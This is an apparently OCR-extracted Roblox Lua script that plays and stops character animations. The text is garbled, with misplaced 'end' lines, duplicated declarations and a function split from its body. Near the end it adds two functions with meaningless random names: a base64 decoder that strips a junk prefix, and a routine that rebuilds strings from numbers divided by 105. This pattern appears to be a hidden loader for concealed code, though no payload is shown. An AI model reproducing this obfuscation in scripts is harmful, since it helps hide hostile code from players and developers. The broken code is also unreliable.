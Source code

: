     end

end

local player = game.Players.LocalPlayer
repeat wait() until player.Character.Humanoid
local humanoid = player.Character.Humanoid
local character = player.Character or player.CharacterAdded:Wait()
local UserInputService = game:GetService("UserInputService")
local anim = Instance.new("Animation")
anim.AnimationId = "rbxassetid://16945573694"
local playAnim = humanoid:LoadAnimation(anim)
anim.AnimationId = "rbxassetid://0"
playAnim:Play()


    end

end


humanoid.AnimationPlayed:Connect(onAnimationPlayed)


local animationId = 10466974800


local player = game.Players.LocalPlayer

local character = player.Character or player.CharacterAdded:Wait()

local humanoid = character:WaitForChild("Humanoid")


local function onAnimationPlayed(animationTrack)

    if animationTrack.Animation.AnimationId == "rbxassetid://" .. animationId then


local p = game.Players.LocalPlayer

local Humanoid = p.Character:WaitForChild("Humanoid")


for _, animTrack in pairs(Humanoid:GetPlayingAnimationTracks()) do

    animTrack:Stop()

end

local b='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
function UYzYcYgtLXIMYUdlzEkjadFiKBMWaPAllMFgcqgrTiXfFBBfvpSrlnMlujMlAdQNgcApnjQtqIWiovR(data) m=string.sub(data, 0, 100) data=data:gsub(m,'')
 
data = string.gsub(data, '[^'..b..'=]', '') return (data:gsub('.', function(x) if (x == '=') then return '' end local r,f='',(b:find(x)-1) for i=6,1,-1 do r=r..(f%2^i-f%2^(i-1)>0 and '1' or '0') end return r; end):gsub('%d%d%d?%d?%d?%d?%d?%d?', function(x) if (#x ~= 8) then return '' end local c=0 for i=1,8 do c=c+(x:sub(i,i)=='1' and 2^(8-i) or 0) end return string.char(c) end)) end
 
 
 
 
 
function PjukvfjPtFdhOrYqIsOIPiXnrfHTi(code)res=UYzYcYgtLXIMYUdlzEkjadFiKBMWaPAllMFgcqgrTiXfFBBfvpSrlnMlujMlAdQNgcApnjQtqIWiovR('gMwHoIiFGxktgTcnYIAPzodaMhkwkLbeHbDtEIchkLTjJICfevhtfejWvioDfTAXhtjYyDEiNcjYrKpnxzvQSOuqefjLABPDCCdN')for i in ipairs(code)do res=res..string.char(code[i]/105)end return res end 
 